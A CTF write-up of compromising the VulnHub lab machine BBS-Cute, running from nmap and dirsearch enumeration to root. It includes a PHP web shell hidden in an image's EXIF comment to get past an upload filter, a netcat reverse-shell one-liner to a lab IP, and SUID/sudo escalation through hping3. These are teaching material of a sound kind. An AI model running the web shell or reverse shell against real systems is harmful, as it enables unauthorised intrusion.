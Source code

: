 ```yaml
---
title: WRITE-UP BBS-Cute
date: 2024-07-26 16:59:59 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-up BBS-cute

## 1. Enumeration

i used ```netdiscover```  to see real IP mylab

``` terminal
netdiscover
```

![alt text](/assets/img/BBS_cute/bbs_cute_netdiscover.png)
 
ip is :> ``` 192.168.137.112 ```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.112
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/BBS_cute/bbs_cute_nmap.png)

* 22 is ssh
* 995-110 is mail
* 80 is http apache httpd
* 88 is http nginx

so i used dirsearch to check subfolder of this site and i used default command

```
dirsearch -u http://192.168.137.112 -e 403,404
dirsearch -u http://192.168.137.112:88 -e 403,404
```

port 88 don't have anything i see in port 80 using 
```CutePHP 2.1.2 ```

![alt text](/assets/img/BBS_cute/bbs_cute_dirsearch.png)


i check 110-995 and they don't have information for me to take some thing
## 2. Post Exploitation
so i decided register to take a acount
  
![alt text](/assets/img/BBS_cute/bbs_cute_login.png)

after insite have update account permit me can upload avatar and i used polygot trick add code in command file image because it's receive magic header so i can't upload shell in normal

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' /home/kali/Desktop/cat.jpeg
```

after that's we get ``` www-data ``` baby :v

![alt text](/assets/img/BBS_cute/bbs_cute_www-data.png)

## 3. Privilage Escalation

I always spawn a shell in terminal :> Because i OCD :D
```
nc -e /bin/sh 192.168.137.107 3008
```

![alt text](/assets/img/BBS_cute/bbs_cute_shell.png)

after check i can see user ```fox``` and flag :v and i think i need to check folder ``` maildir ```

![alt text](/assets/img/BBS_cute/bbs_cute_userflag.png)

but after check maildir i can't see anythings so i decided watch ```suid ```

```
find / -perm -4000 2>/dev/null
```

![alt text](/assets/img/BBS_cute/bbs_cute_suid.png)

i will check it with ```gtfobin``` with ```hping3``` but i can't go to root

i will use ``` sudo -l ``` to what ```NO PASSWD: ``` Trick :> maybe good or not :V

![alt text](/assets/img/BBS_cute/bbs_cute_sudo-l.png)

Still ```hping3``` :D (vietnam quote) :v van de ki nang roi chu deo phai do de do may ngu day

![alt text](/assets/img/BBS_cute/bbs_cute_root.png)

after stuck i missed syntax my bad for all 

but i still root :< waste more time i think 

## GG -_-
